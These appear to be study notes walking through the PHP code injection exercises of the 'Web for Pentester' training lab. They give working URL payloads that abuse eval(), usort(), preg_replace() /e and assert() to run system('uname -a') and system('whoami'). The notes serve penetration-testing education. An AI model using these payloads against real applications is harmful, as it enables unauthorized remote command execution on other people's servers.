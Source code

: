 ## Code Injection
Code Injection is the general term for attack types which consist of injecting code that is then interpreted/executed by the application. This type of attack exploits poor handling of untrusted data. These types of attacks are usually made possible due to a lack of proper input/output data validation

### Web for Penterster walkthrough
### example 1
` eval() - evaluates a string as PHP code ` <br>
**payload**- " .phpinfo(). "  <br>
**payload**- " . hacker".system('uname -a');#       - change to RCE  & url encode need 


### example 2
` usort() - Sort an array by values using a user-defined comparison function ` <br>
**payload**-example2.php?order=id,system('whoami') <br>
**payload**- example2.php?order=id);}system('whoami');#      - change to RCE  & url encode need 


### example 3
` preg_replace() — Perform a regular expression search and replace `<br>
**payload** - example3.php?new=phpinfo()&pattern=/lamer/e&base=Hello lamer"  <br>
**payload** - example3.php?new=system('uname -a')&pattern=/lamer/e&base=Hello lamer         - change to RCE


### example 4
` assert() - Checks if assertion is FALSE ` <br>
**payload** - example4.php?name=hacker'.phpinfo().' <br>
**payload** - example4.php?name=hacker'.system('uname -a').'


### Ref : 
- [LOL security](https://www.youtube.com/channel/UCQm58nOLArHOfC5dF9zCxHg)
- [OWASP](https://owasp.org/www-community/attacks/Code_Injection)
- [php.net](https://www.php.net)

